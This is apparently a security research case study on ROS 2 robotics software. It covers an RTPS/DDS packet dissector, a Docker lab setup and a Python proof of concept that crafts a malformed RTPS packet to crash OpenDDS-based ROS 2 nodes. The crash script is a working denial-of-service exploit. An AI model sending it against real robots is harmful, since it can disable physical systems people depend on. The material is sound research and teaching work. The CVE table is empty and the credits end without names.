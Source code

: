 \newpage

## Robot Operating System (ROS) 2

The Robot Operating System (ROS) is the de *facto* standard for robot application development [@Quigley09]. It's a framework for creating robot behaviors that comprises various stacks and capabilities for message passing, perception, navigation, manipulation or security, among others. It's [estimated](https://www.businesswire.com/news/home/20190516005135/en/Rise-ROS-55-total-commercial-robots-shipped) that by 2024, 55% of the total commercial robots will be shipping at least one ROS package. **ROS is to roboticists what Linux is to computer scientists**.

This case study will analyze the security of ROS 2[^1] and demonstrate how flaws on both ROS 2 layer or its underlayers lead to the system being compromised.

[^1]: ROS 2 is the second edition of ROS targeting commercial solutions and including additional capabilities. ROS 2 (Robot Operating System 2) is an open source software development kit for robotics  applications. The purpose of ROS 2 is to offer a standard software platform to developers across industries that will carry them from research and prototyping through to deployment and  production. ROS 2 builds on the success of ROS 1, which is used today in myriad robotics applications  around the world.

The following security flaws are exploited:

| CVE ID | Description | Scope    |  CVSS    | Notes  |
|--------|-------------|----------|----------|--------|
| | | |


### Dissecting ROS 2 network interactions

To hack ROS 2, we'll be using a network dissector of the underlying default  communication middleware that ROS 2 uses: DDS. DDS stands for Data Distribution Service and is a middleware technology used in critical applications like autonomous driving, industrial and consumer robotics, healthcare machinery or  military tactical systems, among others.

In collaboration with other researchers, we built a DDS (more specifically, a Real-Time Publish Subscribe (RTPS) protocol) dissector to tinker with the ROS 2 communications. For a stable (known to work for the PoCs presented below) branch of the dissector, refer to [https://github.com/vmayoral/scapy/tree/rtps](https://github.com/vmayoral/scapy/tree/rtps) or alternatively, refer to the [official Pull Request we sent to scapy](https://github.com/secdev/scapy/pull/3403) for upstream integration.

The package dissector allows to both dissect and craft, which will be helpful while checking the resilience of ROS 2 communications. E.g., the following Python piece shows how to craft a simple empty RTPS package that will interoperate with ROS 2 Nodes:

![](../../images/2021/rtps_simple.png)

![A simple empty RTPS package](images/2021/rtps_simple.pdf)

```python
rtps_package = RTPS(
    protocolVersion=ProtocolVersionPacket(major=2, minor=4),
    vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
    guidPrefix=GUIDPrefixPacket(
        hostId=16974402, appId=2886795266, instanceId=1172693757
    ),
    magic=b"RTPS",
)
```

Let's get started by dockerizing an arbitrary targeted ROS 2 system.

### Dockerizing the target environment
ROS 2 is nicely integrated with Docker, which simplifies creating a hacking development environment. Let's build on top of the default ROS 2 containers and produce two targets for the latest LTS ROS 2 release: ROS 2 Foxy (latest LTS)

#### Build for Foxy from source and run

```bash
# Build may take a while depending on your machine specs
docker build -t hacking_ros2:foxy --build-arg DISTRO=foxy .
```

#### Run headless
```bash
# Launch container
docker run -it hacking_ros2:foxy /bin/bash

# Now test the dissector
cat << EOF > /tmp/rtps_test.py
from scapy.all import *
from scapy.layers.inet import UDP, IP
from scapy.contrib.rtps import *

bind_layers(UDP, RTPS)
conf.verb = 0

rtps_package = RTPS(
    protocolVersion=ProtocolVersionPacket(major=2, minor=4),
    vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
    guidPrefix=GUIDPrefixPacket(
        hostId=16974402, appId=2886795266, instanceId=1172693757
    ),
    magic=b"RTPS",
)

hexdump(rtps_package)
rtps_package.show()
EOF

python3 /tmp/rtps_test.py
0000  52 54 50 53 02 04 01 03 01 03 02 42 AC 11 00 02  RTPS.......B....
0010  45 E5 E2 FD                                      E...
###[ RTPS Header ]###
  magic     = 'RTPS'
  \protocolVersion\
   |###[ RTPS Protocol Version ]###
   |  major     = 2
   |  minor     = 4
  \vendorId  \
   |###[ RTPS Vendor ID ]###
   |  vendor_id = Object Computing Incorporated, Inc. (OCI) - OpenDDS
  \guidPrefix\
   |###[ RTPS GUID Prefix ]###
   |  hostId    = 0x1030242
   |  appId     = 0xac110002
   |  instanceId= 0x45e5e2fd
```

#### Run, using X11
```bash
xhost + # (careful with this! use your IP instead if possible)
docker run -it -v /tmp/.X11-unix:/tmp/.X11-unix -e DISPLAY=$DISPLAY -v $HOME/.Xauthority:/home/xilinx/.Xauthority hacking_ros2:foxy
```

### Crashing ROS 2 Nodes

```python
"""
A simple python script to crash ROS 2 communication on top of OpenDDS
"""

from scapy.all import *
from scapy.layers.inet import UDP, IP
from scapy.contrib.rtps import *

bind_layers(UDP, RTPS)
conf.verb = 0


dst = "172.17.0.2"
sport = 17900
dport = 7410

# # crash OpenDDS publisher prior to v3.18
opendds_crasher = (
    IP(
        version=4,
        ihl=5,
        tos=0,
        len=82,
        flags=2,
        frag=0,
        ttl=64,
        proto=17,
        dst=dst,
    )
    / UDP(sport=sport, dport=dport, len=62)
    / RTPS(
        protocolVersion=ProtocolVersionPacket(major=2, minor=4),
        vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
        guidPrefix=GUIDPrefixPacket(
            hostId=16974402, appId=2886795266, instanceId=1172693757
        ),
        magic=b"RTPS",
    )
    / RTPSMessage(
        submessages=[
            RTPSSubMessage_DATA(
                submessageId=21,
                submessageFlags=5,
                octetsToNextHeader=0,
                extraFlags=0,
                octetsToInlineQoS=16,
                readerEntityIdKey=0,
                readerEntityIdKind=0,
                writerEntityIdKey=256,
                writerEntityIdKind=194,
                writerSeqNumHi=0,
                writerSeqNumLow=2,
                data=DataPacket(
                    encapsulationKind=3,
                    encapsulationOptions=0,
                    parameterList=ParameterListPacket(
                        parameterValues=[
                            PID_BUILTIN_ENDPOINT_QOS(
                                parameterId=119, parameterLength=0, parameterData=b""
                            ),
                            PID_PAD(parameterId=b"\x00\x00"),
                        ]
                    ),
                ),
            )
        ]
    )
)
```

Let's try this out in the dockerized environment using byobu to facilitate the setup:

```bash
# Launch container
docker run -it hacking_ros2:foxy /bin/bash

# (inside of the container), launch conriguration
byobu -f configs/poc.conf attach
```


### Credit
This research is the result of a cooperation among various security researchers. The following individuals too part on it:
